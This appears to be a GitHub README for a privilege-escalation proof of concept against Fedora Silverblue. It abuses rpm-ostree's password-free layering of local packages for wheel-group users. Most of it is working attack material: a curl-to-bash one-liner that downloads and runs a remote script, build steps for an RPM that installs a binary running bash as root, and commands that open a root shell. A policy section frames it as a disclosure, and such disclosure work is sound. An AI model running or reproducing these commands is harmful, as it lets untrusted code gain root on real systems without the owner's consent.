 A privilege escalation proof-of-concept for Fedora immutable desktops, using the fact that `rpm-ostree install` doesn't ask for the user's password to install local packages.

This is a demonstration that any program running as a member of the `wheel` group (e.g., a `pip` or `npm` package, or `curl | bash`) is able to execute arbitrary code as root without user interaction.

## One-liner
```
bash <(curl https://raw.githubusercontent.com/rohanssrao/silverblue-privesc/main/privesc.sh)
```

To undo: `rpm-ostree remove privesc`

## More info

Fedora's [Privilege Escalation Policy](https://fedoraproject.org/wiki/Privilege_escalation_policy) says:

> The policy requires that any code which allows an unprivileged user account to perform, or cause to be performed, certain actions must require administrative authentication prior to the action being carried out.
> The actions are:
> - Add, remove, or downgrade any system-wide application or shared resource (packaged or otherwise), **with the exception that for installing Fedora-signed packages from administrator-configured repositories, the requirement to ask for a password is waived for members of the wheel group who are local and active.**

`privesc.rpm` is not Fedora-signed or from an administrator-configured repository, so this behavior can be considered a violation of the policy.

The relevant Polkit rule is [here](https://github.com/coreos/rpm-ostree/blob/3060372fd386f320e7733d7802b6a0fee38d39ae/src/daemon/org.projectatomic.rpmostree1.policy#L22).

Discussions: https://github.com/coreos/rpm-ostree/issues/745, https://github.com/coreos/rpm-ostree/pull/825

## Manual

**Requirements:**

```bash
dnf install rpmdevtools gcc glibc-static
```

**Building:**

```bash
rpmbuild --bb --define "_rpmdir $(pwd)" --define "_rpmfilename privesc.rpm" privesc.spec
```
This generates `privesc.rpm` in the current directory. Installing the package creates `/usr/bin/privesc` which simply runs bash as root.

**Usage:**

```bash
# Layer package
rpm-ostree install privesc.rpm
# Enter root shell. privesc is placed in the newest deployment
"$(ls -td /ostree/deploy/fedora/deploy/*/ | head -1)"/usr/bin/privesc
```
